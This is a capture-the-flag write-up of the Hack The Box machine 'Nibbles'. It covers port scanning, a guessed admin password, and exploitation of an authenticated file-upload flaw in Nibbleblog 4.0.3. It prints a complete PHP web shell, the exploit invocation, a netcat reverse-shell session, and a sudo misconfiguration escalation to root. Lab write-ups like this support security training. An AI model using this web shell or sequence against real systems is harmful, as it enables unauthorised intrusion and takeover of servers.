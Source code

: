 ```yaml
---
tags:
  - linux
---
```

# HTB: [Nibbles](https://app.hackthebox.com/machines/Nibbles)

> [!tip]- Summary with Spoilers
> - This machine was running Nibbleblog version `v4.0.3`, which was vulnerable to an authenticated file upload vulnerability (`CVE-2015-6967`).
> - I exploited the vulnerability to upload a malicious PHP shell and gained initial access as `nibbler`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing the execution of the `monitor.sh` script as `root`.

## Enumerate

```console
$ nmap -nv -sCV -T4 $t
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-20 11:54 CST
[...]
Host is up (0.26s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Initiating NSE at 11:55
Completed NSE at 11:55, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.79 seconds

```

The web page mentions something called "nibbleblog" in the HTML comments:

![](_/htb-nibbles-20231811-1.png)

The `/nibbleblog/` URL:

![](_/htb-nibbles-20231811-2.png)

The login page is available at `http://10.10.10.75/nibbleblog/admin.php`. I tried brute-forcing the password for the `admin` user but this happens after a few attempts:

![](_/htb-nibbles-20231811-3.png)

My IP even shows up here:

![](_/htb-nibbles-20231811-4.png)

And then I guessed the password, which was… `nibbles`:

![](_/htb-nibbles-20231811-5.png)

## Exploit

The version of Nibbleblog is v4.0.3, as verified by this README file:

![](_/htb-nibbles-20231811-6.png)

That means the software is vulnerable to an arbitrary file upload per CVE-2015-6967. There's [a PoC available](https://github.com/dix0nym/CVE-2015-6967).

I prepare the following payload:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

And trigger the exploit:

```console
$ python3 ./exploit.py --url http://${t}/nibbleblog/ --username admin --password nibbles --payload ~/shell.php
[+] Login Successful.
[+] Upload likely successfull.
[+] Exploit launched, check for shell.
```

It works:

![](_/htb-nibbles-20231811-7.png)

Reverse shell:

![](_/htb-nibbles-20231811-8.png)

```console

$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.75] 33576
$ cd /home/nibbler
cd /home/nibbler
$ cat user.txt
cat user.txt
b8b4a7[...]
```

## Escalate

User `nibbler` has `sudo` for a script called `monitor.sh`:

```console
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ mkdir -p personal/stuff
mkdir -p personal/stuff
nibbler@Nibbles:/home/nibbler$ echo sh > personal/stuff/monitor.sh
echo sh > personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ chmod +x personal/stuff/monitor.sh
chmod +x personal/stuff/monitor.sh
nibbler@Nibbles:/home/nibbler$ sudo /home/nibbler/personal/stuff/monitor.sh
sudo /home/nibbler/personal/stuff/monitor.sh
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
078111[...]
```

## Summary

The target is running an unpatched version of its blogging software that includes an authenticated arbitrary file upload vulnerability. The exploit requires valid credentials, but the password was easy to guess. Privilege escalation was simple do to a `sudoers` entry pointing to a file that was writeable by the user, allowing execution of `sh` as the root user.
